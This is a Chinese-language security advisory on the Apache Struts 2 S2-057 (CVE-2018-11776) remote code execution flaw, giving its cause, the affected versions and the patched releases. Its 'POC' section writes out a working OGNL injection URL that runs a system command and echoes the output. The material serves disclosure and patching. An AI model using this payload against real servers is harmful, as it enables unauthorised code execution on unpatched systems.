




# 漏洞预警 \| Struts 2 远程代码执行漏洞（S2-057 / CVE-2018-11776）

## 事件来源

Struts 2 是一个基于 MVC 设计模式的Web应用框架。其官方在 8 月 22 号发出安全通告及补丁，对其存在的一个远程代码执行漏洞进行修复：

[https://cwiki.apache.org/confluence/display/WW/S2-057](https://cwiki.apache.org/confluence/display/WW/S2-057)

该漏洞编号为 S2-057，CVE 编号为 CVE-2018-11776，当在struts2开发框架中启用泛namespace功能，并且使用特定的result时，会触发远程代码执行漏洞。

由来自 Semmle 安全研究团队的成员 Man Yue Mo 发现并报告。

## 漏洞描述

当没有为基础 XML 配置中定义的 result 设置 namespace ，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，即可能造成远程代码执行漏洞。

同样地，当使用没有设置 value 和 action 的 url 标签，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，也可能会造成远程代码执行漏洞。

漏洞的发现者 Man Yue Mo 写了一篇博客，较详细地分享了他发现这个漏洞的过程和方法：

[https://lgtm.com/blog/apache\_struts\_CVE-2018-11776](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

漏洞作者是在调试分析 Struts 2 历史漏洞 S2-032 , S2-033 和 S2-037 时发现的此漏洞，并且此漏洞也与 OGNL 表达式构造相关。

下图为漏洞作者利用此漏洞成功执行任意代码的截图：

## 影响范围

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

实际场景中存在一定局限性，需要满足一定条件。

## 解决方案

对 Structs 2 版本进行升级以更新安全补丁：

Struts 2.3.x 版本升级到 2.3.35

Struts 2.5.x 版本升级到 2.5.17

漏洞验证传入OGNL表达式${2333+2333}  
成功带入执行函数，并执行返回结果至URL

POC:

\[[http://www.canyouseeme.cc:8080/struts2-showcase/%24{\(%23\_memberAccess\["allowStaticMethodAccess"\]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\('calc'\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char\[51020\]%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)}/actionChain1.action\]\(http://www.canyouseeme.cc:8080/struts2-showcase/%24{\(%23\_memberAccess\["allowStaticMethodAccess"\]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\('calc'\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char\[51020\]%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)}/actionChain1.action](http://www.canyouseeme.cc:8080/struts2-showcase/%24{%28%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28'calc'%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[51020]%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29}/actionChain1.action]%28http://www.canyouseeme.cc:8080/struts2-showcase/%24{%28%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28'calc'%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[51020]%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29}/actionChain1.action)\)

靶机测试

[https://github.com/jas502n/St2-057/blob/master/README.md](https://github.com/jas502n/St2-057/blob/master/README.md)

## 分析文章

S2-057 技术分析[ https://paper.seebug.org/682/](https://paper.seebug.org/682/)

